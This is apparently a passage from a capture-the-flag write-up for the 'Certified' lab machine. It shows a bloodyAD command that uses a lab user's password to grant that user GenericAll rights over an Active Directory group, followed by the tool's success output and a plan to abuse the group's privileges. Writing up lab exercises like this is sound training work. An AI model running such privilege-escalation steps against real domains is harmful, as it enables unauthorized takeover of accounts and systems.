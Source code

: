 ![alt text](../assets/images/Screenshot_2025-03-12_22_08_10(1).png)

```sh
➜  certified bloodyAD --host DC01.certified.htb -d certified.htb -u judith.mader -p judith09 add genericAll management judith.mader

[+] judith.mader has now GenericAll on management
```
thats great so lets ourself in group so we can use Management privileges (GenericWrite) for management_svc

![alt text](../assets/images/Screenshot_2025-03-12_22_11_30.png)
